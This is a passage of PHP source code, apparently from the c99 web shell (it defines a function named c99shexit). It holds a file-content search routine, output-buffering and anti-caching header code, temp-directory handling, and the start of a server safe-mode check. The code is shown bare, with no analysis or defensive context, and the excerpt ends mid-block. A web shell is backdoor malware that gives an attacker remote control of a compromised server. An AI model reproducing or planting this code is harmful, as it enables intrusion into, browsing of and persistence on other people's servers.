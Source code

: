    else 
   { 
    $search_i_f++; 
    if ($bool) 
    { 
     if (!empty($a["text"])) 
     { 
      $r = @file_get_contents($d.$f); 
      if ($a["text_wwo"]) {$a["text"] = " ".trim($a["text"])." ";} 
      if (!$a["text_cs"]) {$a["text"] = strtolower($a["text"]); $r = strtolower($r);} 
      if ($a["text_regexp"]) {$bool = ereg($a["text"],$r);} 
      else {$bool = strpos(" ".$r,$a["text"],1);} 
      if ($a["text_not"]) {$bool = !$bool;} 
      if ($bool) {$found[] = $d.$f; $found_f++;} 
     } 
     else {$found[] = $d.$f; $found_f++;} 
    } 
   } 
  } 
} 
closedir($h); 
} 
} 
if ($act == "gofile") {if (is_dir($f)) {$act = "ls"; $d = $f;} else {$act = "f"; $d = dirname($f); $f = basename($f);}} 
//Sending headers 
@ob_start(); 
@ob_implicit_flush(0); 
function onphpshutdown() 
{ 
global $gzipencode,$ft; 
if (!headers_sent() and $gzipencode and !in_array($ft,array("img","download","notepad"))) 
{ 
  $v = @ob_get_contents(); 
  @ob_end_clean(); 
  @ob_start("ob_gzHandler"); 
  echo $v; 
  @ob_end_flush(); 
} 
} 
function c99shexit() 
{ 
onphpshutdown(); 
exit; 
} 
header("Expires: Mon, 26 Jul 1997 05:00:00 GMT"); 
header("Last-Modified: ".gmdate("D, d M Y H:i:s")." GMT"); 
header("Cache-Control: no-store, no-cache, must-revalidate"); 
header("Cache-Control: post-check=0, pre-check=0", FALSE); 
header("Pragma: no-cache"); 
if (empty($tmpdir)) 
{ 
$tmpdir = ini_get("upload_tmp_dir"); 
if (is_dir($tmpdir)) {$tmpdir = "/tmp/";} 
} 
$tmpdir = realpath($tmpdir); 
$tmpdir = str_replace("\\",DIRECTORY_SEPARATOR,$tmpdir); 
if (substr($tmpdir,-1) != DIRECTORY_SEPARATOR) {$tmpdir .= DIRECTORY_SEPARATOR;} 
if (empty($tmpdir_logs)) {$tmpdir_logs = $tmpdir;} 
else {$tmpdir_logs = realpath($tmpdir_logs);} 
if (@ini_get("safe_mode") or strtolower(@ini_get("safe_mode")) == "on") 
{ 
$safemode = TRUE; 
$hsafemode = "&lt;font color=red&gt;ON (secure)&lt;/font&gt;"; 